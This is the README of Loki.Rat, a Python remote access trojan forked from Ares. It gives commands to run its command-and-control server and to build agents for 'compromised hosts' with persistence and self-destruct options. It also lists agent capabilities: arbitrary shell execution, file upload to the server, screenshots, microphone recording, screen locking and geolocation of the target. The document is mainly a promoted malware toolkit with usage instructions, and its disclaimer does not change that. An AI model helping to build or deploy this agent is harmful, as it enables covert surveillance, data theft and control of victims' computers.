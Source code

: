 # Loki.Rat ![Loki.Rat](https://emojipedia-us.s3.amazonaws.com/thumbs/120/twitter/120/mouse-face_1f42d.png)
     
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||              (\
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||               \\
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||                ))
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||               //
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||        .-.   //  .-.
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||       / 0 \-((=-/   \
    |||||||██▓        ▒█████      ██ ▄█▀    ██▓            ██▀███      ▄▄▄         ▄▄▄█████▓ |||||||       \      \\     /
    |||||||▓██▒       ▒██▒  ██▒    ██▄█▒    ▓██▒           ▓██ ▒ ██▒   ▒████▄       ▓  ██▒ ▓▒|||||||        '( ____))_ )'
    |||||||▒██░       ▒██░  ██▒   ▓███▄░    ▒██▒           ▓██ ░▄█ ▒   ▒██  ▀█▄     ▒ ▓██░ ▒░|||||||        .-'   //  '-.
    |||||||▒██░       ▒██   ██░   ▓██ █▄    ░██░           ▒██▀▀█▄     ░██▄▄▄▄██    ░ ▓██▓ ░ |||||||       /     ((      \
    |||||||░██████▒   ░ ████▓▒░   ▒██▒ █▄   ░██░    ██▓    ░██▓ ▒██▒    ▓█   ▓██▒     ▒██▒ ░ |||||||      |       *       |
    |||||||░ ▒░▓  ░   ░ ▒░▒░▒░    ▒ ▒▒ ▓▒   ░▓      ▒▓▒    ░ ▒▓ ░▒▓░    ▒▒   ▓▒█░     ▒ ░░   |||||||       \             /
    |||||||░ ░ ▒  ░     ░ ▒ ▒░    ░ ░▒ ▒░    ▒ ░    ░▒       ░▒ ░ ▒░     ▒   ▒▒ ░       ░    |||||||        \   |_w_|   /
    |||||||░ ░      ░ ░ ░ ▒     ░ ░░ ░     ▒ ░    ░        ░░   ░      ░   ▒        ░        |||||||        _)  \ ` /  (_
    |||||||░  ░       ░ ░     ░  ░       ░       ░        ░              ░  ░                |||||||      (((_ _/   \_ _)))
    |||||||░                                                                                 |||||||
    
![Loki.Rat](https://github.com/TheGeekHT/Loki.Rat/blob/master/Lokirat.jpg)

Loki.Rat is a fork of the [Ares RAT](https://github.com/sweetsoftware/Ares), it integrates new modules, like recording , lockscreen , and locate options.
Loki.Rat is a Python Remote Access Tool.

# Join our Telegram Channel [Loki.Rat](https://t.me/LokiRat)


[![How to Use Loki.Rat](https://img.youtube.com/vi/bA-N1lv57OI/0.jpg)](https://www.youtube.com/watch?v=bA-N1lv57OI)

Warning: Only use this software according to your current legislation. Misuse of this software can raise legal and ethical issues which I don't support nor can be held responsible for.
![Loki.Rat](https://3.bp.blogspot.com/-hCo9eJTSH5Y/WknUCULBwUI/AAAAAAAAAtY/i08DjoFqwLUsmnXhI7e5YX9AJuZmrjitQCLcBGAs/s1600/1234.png)

Loki.Rat is made of two main programs:

    A Command aNd Control server, which is a Web interface to administer the agents
    An agent program, which is run on the compromised host, and ensures communication with the CNC

The Web interface can be run on any server running Python. The agent[Payload] can be compiled to native executables using pyinstaller.
# Setup 

Install The Loki.Rat 

Open a terminal windows and type this command :
 ```
     git clone https://github.com/TheGeekHT/Loki.Rat.git
     cd Loki.Rat
 ```
 Install the Python modules requirements:
 ```
     pip install -r requirements.txt
 ```
 Initialize the database:
 ```
     cd server
    ./loki.py initdb
 ```    
 In order to compile Windows agents on Linux, setup wine (optional):
 ```
     ./wine_setup.sh
 ```
 ## Server
 
 Run with the builtin (debug) server:
 ```
     ./loki.py runserver -h 127.0.0.1 -p 8080 --threaded
 ```
 Or run using gunicorn:
 ```
     gunicorn loki:app -b 127.0.0.1:8080 --threads 20
 ```
 The server should now be accessible on http://127.0.0.1:8080
 
 ## Payload
 Run the Python payload (update config.py to suit your needs):
 ```
     cd payload
     ./payload.py
 ```
 Build a new payload to a standalone binary:
 ```
     ./builder.py -p Linux --server http://localhost:8080 -o payload
     ./payload
 ```
 To see a list of supported options, run ./builder.py -h
 ```
     ./payload/builder.py -h
     usage: builder.py [-h] -p PLATFORM --server SERVER -o OUTPUT
                    [--hello-interval HELLO_INTERVAL] [--idle_time IDLE_TIME]
                    [--max_failed_connections MAX_FAILED_CONNECTIONS]
                    [--persistent]

     Builds an Loki.Rat payload

     optional arguments:
     -h, --help            show this help message and exit
     -p PLATFORM, --platform PLATFORM
                         Target platform (Windows, Linux).
     --server SERVER       Address of the CnC server (e.g http://127.0.0.1:8080).
     -o OUTPUT, --output OUTPUT
                         Output file name.
     --hello-interval HELLO_INTERVAL
                        Delay (in seconds) between each request to the CnC.
     --idle_time IDLE_TIME
                         Inactivity time (in seconds) after which to go idle.
                         In idle mode, the agent pulls commands less often
                         (every <hello_interval> seconds).
     --max_failed_connections MAX_FAILED_CONNECTIONS
                         The agent will self destruct if no contact with the
                         CnC can be made <max_failed_connections> times in a
                         row.
     --persistent          Automatically install the agent on first run.
```
![Loki.Rat](https://4.bp.blogspot.com/-tbXl_inoyLc/WknUCUBGPPI/AAAAAAAAAtQ/upyR69qd7mguVq9HtgXx0cCbYZ3z5jcugCLcBGAs/s1600/12345.png)
Supported payload commands
```
     <any shell command>
     Executes the command in a shell and return its output.

     upload <local_file>
     Uploads <local_file> to server.

     download <url> <destination>
     Downloads a file through HTTP(S).

     zip <archive_name> <folder>
     Creates a zip archive of the folder.

     screenshot
     Takes a screenshot.

     python <command|file>
     Runs a Python command or local file.

     persist
     Installs the agent.

     clean
     Uninstalls the agent.

     exit
     Kills the agent.
     
     record
          -h, --help            show this help message and exit
          -t RECORD_SECONDS, --time RECORD_SECONDS
                                Set a timing in seconds for record. (e.g 10)
          -c CHANNELS, --channel CHANNELS
                                Channel for the microphone (e.g 2).
          -ch CHUNK, --chunk CHUNK
                                Chunk for the microphone (e.g 1024).
          -r RATE, --rate RATE  Rate (e.g 44100).
          
     lockscreen
     lock screen only on windows and Linux with Gnome environnement
     
     Geolocalisation
     locate the target machine , and print the Latitude and Longitude
          
     help
     This help.
```
![Loki.Rat](https://1.bp.blogspot.com/-WSolWnb_MPY/WknUCQKM9nI/AAAAAAAAAtU/1e7U7xDvT0ECJ-EDbxTCXbpM1kk9kr1WwCLcBGAs/s1600/123.png)
 # <> with :heart: in HAITI 🇭🇹 
